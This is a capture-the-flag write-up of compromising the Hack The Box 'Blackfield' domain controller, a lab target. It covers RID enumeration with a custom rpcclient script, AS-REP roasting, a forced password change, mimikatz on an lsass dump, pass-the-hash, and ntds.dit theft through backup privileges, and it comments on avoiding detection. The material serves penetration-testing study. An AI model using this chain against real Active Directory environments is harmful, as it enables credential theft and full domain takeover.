| Target       |
| ------------ |
| 10.10.10.192 |

### 100.1 Fingerprinting

This step is crucial to gather as much intel on the target as possible before the engagement . Usually  it's only `passive` but here I'm already interacting  directly with the box because it's `hackTheBox`.

```sh
ping -c1 10.10.10.192
```


> TTL 127 Windows System 1 Hop Away

```sh
nxc smb 10.10.10.192
```


Nice we have a domain controller! 

> We already knew that, but it's always good practice confirming `intel`with little `experiments`like these right?


| IP Address   | NetBIOS | Domain           | OS                                  |
| ------------ | ------- | ---------------- | ----------------------------------- |
| 10.10.10.192 | DC01    | blackfield.local | Windows Server 2019 Build 17763 x64 |

---

#### 200.1 Resource Development

Setting up `dns`resolution.

- /etc/hosts
```sh
echo 10.10.10.192 dc01.blackfield.local blackfield.local dc01 | sudo tee -a /etc/hosts 
```

- /etc/resolv.conf
```sh
search blackfield.local
nameserver 10.10.10.192
nameserver 192.168.122.1 # my lab gateway
options timeout:10 # pgp and htb networks can be slow sometimes
```

```sh
sudo chattr +i /etc/resolv.conf
```

```sh
nslookup -type=any blackfield.local 
```


---

### 300.1 Service Enumeration


First things first! What resources are provided by the target that we could abuse or exploit ? 

```sh
sudo nmap dc01.blackfield.local \
	-Pn --disable-arp-ping --reason -v \
	-sC -sV -p1-10000 --min-rate=100 \
	-oN scans/nmap.txt
```


> I'm being ridiculously noisy here! this would never fly in real life. 

It looks like the main attack surface will be the `rpc` `ldap` and `smb`protocols.

Also Our clock is off! We'll need to go back to `resource development`to fix that!

---

### 200.2 Resource Development : Fixing Clock Skew 

> If we don't fix our clock we won't be able to authenticate if we ever compromise an account! 

```sh
sudo timedatectl set-ntp false
```

```sh
sudo timedatectl set-timezone GMT
```

Now let's adjust our clock manually. 
```sh
sudo timedatectl set-time '2024-12-14 05:37'
```


*Now we should be able to authenticate using kerberos* 


---

### 400.1 Null Session Enumeration

> Should I expect finding something like this in a real engagement ?

```sh
nxc smb -u 'guest' -p '' --shares dc01
```


We may find sensitive info in the `/profiles$` 

We can enumerate users anonymously.

```sh
nxc smb -u 'guest' -p '' --rid-brute 1500 dc01
```


But How does it work ? 

Well `nxc`will  first extract the `domain sid`using a `lsaquery`.  Like this:

```sh
rpcclient -U 'guest'%'' dc01 -c 'lsaquery'
```


| Domain SID                                |
| ----------------------------------------- |
| S-1-5-21-4194615774-2175524697-3563712290 |

Then `nxc`will append a integer to the end.  For example the `RID`for the default administrator account is `500`. So the `Security Identifier`will look like this:

| Administrator SID                             |
| --------------------------------------------- |
| S-1-5-21-4194615774-2175524697-3563712290-500 |
By running a `lookupsids`on the administrator `SID` we can get the username. 
```sh
rpcclient -U 'guest'%'' dc01 -c 'lookupsids S-1-5-21-4194615774-2175524697-3563712290-500'
```


Now we just need to iterate through 501, 502, 503 etc to enumerate the domain accounts.

I wrote a simple wrapper for `rpcclient`that does that as an exercise.

[dumplsarpc.py](https://raw.githubusercontent.com/bluetoothStrawberry/dumplsarpc/refs/heads/main/dumplsaprc.py)
```python
#!/usr/bin/env python3
import subprocess
import shlex
import sys

target = 'dc01' # HTB's dc01.blackfield.local box

username = 'guest' # for anonymous access | random strings should work too
password = '' 
max_rid = 1500

def get_sid(target: str, username: str, password: str ) -> str:
    lsaquery = f'/usr/bin/rpcclient -U {username}%{password} -c "lsaquery" {target}'
    try:
        sid = subprocess.check_output(shlex.split(lsaquery)).decode().strip().split()[-1]
    except:
        pass
    if 'S-' not in sid:
        return None
    return sid


def get_objects(sid: str, max_rid: int, target: str, username: str, password: str) -> tuple:
    groups , machines , users = [], [], []
    sids = ' '.join([ f'{sid}-{str(rid)}' for rid in range(500, max_rid + 1)])
    lookupsids = f'/usr/bin/rpcclient -U {username}%{password} -c "lookupsids {sids}" {target}'
    try:
        res = subprocess.check_output(shlex.split(lookupsids)).decode()
    except:
        pass
    if 'administrator' not in res.lower():
        return [], [], []
    for line in res.split('\n'):
        if '(2)' in line or '(4)' in line:
            groups.append(' '.join(line.split(' ')[:-1][1:]))
        if '(1)' in line and '$' in line:
            machines.append(line.split(' ')[-2])
        if '(1)' in line and '$' not in line:
            users.append(line.split(' ')[-2])
    return groups, machines, users


if __name__ == '__main__':
    sid = get_sid(target, username, password)
    groups, machines, users = get_objects(sid, max_rid, target, username, password)

    for group in groups:
        print(f'Group: {group}')
    for machine in machines:
        print(f'Machine: {machine}')
    for user in users:
        print(f'User: {user}')
```

As you can see we get the same results because it's the same method!


Although we have over 300 accounts. Only 4 do not fallow the naming pattern. 

This is common in many companies. Instead of using something like `michell.mayers`they will use a nominal system that will look like `<some arbritrary prefix> `+ `<some random number> `. Is this real security or is this attempted security through obscurity ?

| Interesting Accounts |
| -------------------- |
| audit2020            |
| support              |
| svc_backup           |
| lydericlefebvre      |

###### 400.2 `/profiles$`share

This looks really off. 

I've found a bunch of what looks like usernames. But we already know those are not valid account names!  Maybe they were `valid`at some point ? 

```sh
smbclient -U 'john'%'password123'  //dc01/profiles\$
```


For now I cannot make a lot of sense of this share! Let's move on! 

---

### 500.2 ASP-REP Roasting
###### Looking for low-hanging fruits

```sh
python3 GetNPUsers.py \
	-request \
	-outputfile asprep.hashcat \
	-format hashcat \
	-usersfile users.txt \
	blackfield.local/
```


I was not expecting to find anything juicy yet because the box is rated as hard. 
However it looks like we have one account that does not require `kerberos pre-authentication`! 

[asrep_roasting](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/)


The `Authentication Server Response`  or `AS-REP` for short contains a `TGT`that was encrypted with the users `ntlm`hash. 

So we could brute force to recover the user password! 

And it worked ! We have access to  our first account! 
```sh
hashcat -a0 -w3  -m18200 -ocracked.txt asprep.hashcat rockyou.txt
```


| account | password        |
| ------- | --------------- |
| support | #00^BlackKnight |


Still we cannot access `/forensic`


---

### 600.1 Attack Development : Bloodhound


Let's gather some intel on the  target domain.

```sh
bloodhound-python \
	-u 'support@blackfield.local' \
	-p '#00^BlackKnight' \
	-d 'blackfield.local' \
	-c all \
	--zip
```


The account `support@blackfield.local` can change `audit2020@blackfield.local` password because it has the `ForceChangePassword` on the target account.


`SVC_BACKUP`is member of  the `Remote Management Users`and can be use to get `initial access` on the Domain Controller.


The account `svc_backup`is member of the backup operators group! We could `privesc`using this account! 


So the plan is:

 1. Change password for user `audit2020`.  
 2. Enumerate share `/forensic`for information that leads to the  compromise of `svc_backup`.  
 3. Get initial access using `svc_backup`and `evil-winrm`.  
 4. leverage the `Backup Operatos`group to `privesc`


---

### 700.1 Horizontal Movement
###### Abusing `PasswordForceChange`


We can change the user password using `rpcclient`.

```sh
rpcclient -U 'support'%'#00^BlackKnight' dc01
```
```vb
setuserinfo2 audit2020 23 '#00^BlackKnight'
```


let's test it.

```sh
nxc smb -u 'audit' -p '#00^BlackKnight' --shares  dc01.blackfield.local
```


Nice! it worked just as planned! 

---

### 800.1 Looting

```sh
smbclient -U 'audit2020'%'#00^BlackKnight'  //dc01/forensic
```

It looks at some point in the past the system was compromised! The analysts generated memory dumps to investigate the event. Including from the `lsass.exe`process!


###### 800.2 Local Security Authority Subsystem Service

`lsass`process  verifies users logging on the system. It may store encrypted credentials on memory! 


https://attack.mitre.org/techniques/T1003/001/


We don't even need the plain text credential. Retrieving a  `nt` hash for `svc_backup`or `administrator`would suffice. 

```sh
smbget -U 'BLACKFIELD/audit2020'%'#00^BlackKnight' \
	smb://dc01/forensic/memory_analysis/lsass.zip
```


Let's hop on my `commando box`. 

We need to run `mimikatz.exe`  x64 as administrator to dump the credentials from  the process dump.

```c
sekurlsa::Minidump lsass.DMP
````

```c
sekurlsa::logonPasswords
```


Cool we extracted two NTLM hashes

```
svc_backup: 9658d1d1dcd9250115e2205d9f48400d
administrator: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
```

It looks like they changed the administrator password after the breach!

However we successfully compromised `svc_backup`as planned! 
```sh
nxc winrm -u 'svc_backup' \
	-H 9658d1d1dcd9250115e2205d9f48400d \
	-d blackfield.local  \
	dc01.blackfield.local
```


> **About Pass-The-Hash Attacks**
> 
> How to protect a system knowing that the attacker don't even need to crack the hashes ? 
> We may not know the password but the effect is the same! 
> how does that work under the hood? 


Also we've learned something new from the experience and this [article](https://www.semperis.com/blog/how-to-defend-against-pass-the-hash-attack/). Here they are teaching how to defend but it also teaches us how to avoid detection! 

Security analysts may dump memory for process often.  So It's all about behavior! At least now we know  that there's no need for uploading tools . We can dump process and or hives and extract those hashes on our system without touching disk. 

https://www.semperis.com/blog/how-to-defend-against-pass-the-hash-attack/


If someone catches an `IT Guy` running `procdump`would that be alarming ? 


---

### 900.1 Stealing  `NTDS.dit`  

First let's get initial access on the domain controller using a `pass-the-hash` technique. 

```sh
evil-winrm \
	-i 'dc01.blackfield.local' \
	-u 'svc_backup@blackfield.local' \
	-H '9658d1d1dcd9250115e2205d9f48400d'
```



We can check our `access tokens`with `whoami /priv`.

```
whoami /priv
```


Cool! both `Backup`and `Restore` privileges are available and enabled!

We can leverage our `privs` `SeBackup`and `SeRestore`to steal the database that stores domain credentials `ntds.dit`.

First wen need to create a shadow copy of the `c:\`drive. Because we cannot open the `NTDS.dit`database while it is in use!

Well, defender is doing it's thing.
```powershell
Get-Process -Name MsMpEng
```


We better restrain ourselves from doing anything wild here. 

By the way. Now I understand why that `/profile`share looked funky.
They changed the accounts names to be nominal. 
Then the  `support` account was given control over `auditor2020`to disable it.
And that's why we were able to change the password! 
Also they created a `svc_backup`to backup and restore the system after the changes. Hence, `svc_backup`was operating in the `DC01$` while the auditors were working. And that's why we got  the account `ntlm`hash  from  `lsass.exe`. A perfect `chain of misfortunes` ! 



Back to work! I'll use this [article](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960) !

`wbadmin` is the backup utility on windows and we are the `backup operators` hehe

So let's use the `native tool`to backup `c:\windows\ntds` then we could just *copy/restore* `ntds.dit` from the backup and use it to dump domain hashes! 

We could've done this slightly better! Even though this won't  trigger `Windows Defender`we still touching disk. Instead I could've created a `smb share`on my `kali`to copy these files directly! 

```
wbadmin start backup -quiet -backuptarget:\\dc01\c$\loot -include:c:\windows\ntds
```


Let's list backups
```
wbadmin get versions
```


Now we can use our backup to copy `ntds.dit` 
```
wbadmin start recovery -quiet -version:12/14/2024-12:50 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\loot -notrestoreacl
```


Now let's extract the `system`and `sam`hives. 
```
reg save HKLM\SYSTEM system
```
```
reg save HKLM\SAM sam
```


And now we can use impacket's `secretsdump` to extract the hashes.

```sh
python3 secretsdump.py -ntds ntds.dit -system system -sam sam LOCAL
```


Perfect! Time to `Pass-The-Hash`.

 We could get a session as the administrator with: 
```sh
evil-winrm \
	-i 'dc01.blackfield.local' \
	-u 'administrator@blackfield.local' \
	-H '184fb5e5178480be64824d4cd53b99ee'
```

Or escalate to `nt authority\system`  using impacket's `smbexec.py`

```sh
python3 smbexec.py \
	-hashes :184fb5e5178480be64824d4cd53b99ee \
	blackfield.local/administrator@dc01.blackfield.local
```


And that's all I hope you guys liked it!!

Happy Hacking!! 
